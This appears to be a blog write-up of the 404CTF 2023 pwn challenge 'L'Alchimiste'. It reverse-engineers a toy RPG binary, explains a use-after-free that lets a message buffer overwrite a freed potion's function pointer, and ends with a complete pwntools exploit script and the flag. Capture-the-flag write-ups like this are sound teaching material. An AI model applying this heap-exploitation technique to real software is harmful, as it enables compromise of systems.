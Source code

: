 ```yaml
---
layout: post
title: 404CTF 2023 | L'Alchimiste
image: /assets/images/404ctf/l-alchimiste/cover.png
date: 2023-06-07 01:20:00
categories: [404ctf, pwn]
---
```


This challenge was part of the [404CTF 2023](https://www.404ctf.fr/), organized by the General Directorate for External Security (DGSE) and Télécom SudParis.

# Challenge Description

![Challenge Description]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/description.png)

The given file shows us a RPG-like prompt, where we can take some actions. The goal seems to be to show the alchemist our value, and we can already guess with the prompt that the exploit will be triggered by the fifth choice.

![Program prompt]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/program.png)

# Reverse Engineering

Let's start by reversing the file on [Ghidra](https://ghidra-sre.org/). The binary contains debug symbols, so it is pretty straightforward. In the main function, a character is created and passed to each chosen function.

Looking at how are implemented the `showStats` and `buyStrUpPotion` functions, we deduce that our character is a structure containing 4 fields : 
 - `str`
 - `int`
 - `gold`
 - a pointer to a structure initialized as `NULL`, that we will identify later


<div class="row-container">
<div class="flex-2">

In order to get the flag, our character needs to have at least 150 of strength and intelligence. Unfortunately, we only have 100 gold and we cannot buy intelligence potions... We will have to use our own intelligence and a **Use-After-Free** to do so !	

</div>
<div>

![view_flag function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/view_flag.png)

</div>
</div>

# Analysis

Looking at how a potion is created, we deduce that a potion is another struct containing a `char[64]` array followed by a pointer to the function that will be executed when used.

![buyStrUpPotion function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/potion.png)

In this function, we note that `malloc` is always executed, even if we don't have enough gold.

![useItem function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/useItem.png)

Here `free` is called but the pointer reference will still be there !

Looking at those functions, a classic Use-After-Free comes out : if we buy a potion and use it a first time, we will then be able to repeat it to call `incStr` even if we don't have gold.
> Note that we have to call `malloc` again because else the double call to `free` will be detected and the program will crash.

___

In order to increase our strength, we just have to spam `buyStrUpPotion` and `useItem` :)

___
<br/>


As we're still unable to increase our intelligence, let's look further in the code. There is another option which allows us to send a message to the alchemist :

<div class="row-container column-reverse">
<div class="flex-2">

In this function, a buffer is allocated on the heap and we can write arbitrary data to it. Using this ability with the previous **Use-After-Free**, we can overwrite a freed potion and choose the function which will be called when used.

</div>
<div>

![sendMessage function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/sendMessage.png)

</div>
</div>


<div class="row-container">
<div>

![incInt function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/incInt.png)

</div>
<div class="flex-2">

Looking at the assembly code, and defined functions, we can observe that an `incInt` function is present in the binary, even if it is not called anywhere. This will make exploitation even easier for us, as this is exactly what we want to achieve.

</div>
</div>

As PIE is not enabled, the address of this function will not be random, we can find it at `0x4008d5`.

![Checksec output]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/checksec.png)



# Exploit

As always, I used [pwntools](https://docs.pwntools.com/en/stable/), which makes communication with the process easier.

```py
#!/usr/bin/python3

from pwn import *

REMOTE = True
if REMOTE:
	p = remote('challenges.404ctf.fr', 30944)
else:
	p = process('./l_alchimiste')
	input('Press [ENTER] to continue...')

"""
1: buyStrUpPotion(character); MALLOC
2: useItem(character); FREE
3: sendMessage();
4: showStats(character);
5: view_flag(character);
6: break;
"""

INC_INT = 0x4008d5

def upStr():
	p.send(b'1\n') # Potion
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Potion address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')

def upInt():
	p.send(b'1\n') # Potion
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Potion address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')

	payload = b'A' * int(64)
	payload += p64(INC_INT)

	p.send(b'3\n') # Send message
	p.recvuntil(b'[Vous] ')
	p.send(payload + b'\n')
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Message address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')
	#p.send(b'4\n') # SHOW
	#print(p.recvuntil(b'>>> ').decode())

p.recvuntil(b'>>> ')
upStr()
upStr()
upStr()

upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
p.send(b'4\n') # SHOW
print(p.recvuntil(b'>>> ').decode())

p.send(b'5\n')
sleep(2)
print(p.recv())
```

![expl.py output]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/expl-output.png)

> ✅ Flag : `404CTF{P0UrQU01_P4Y3r_QU4ND_135_M075_5UFF153N7}`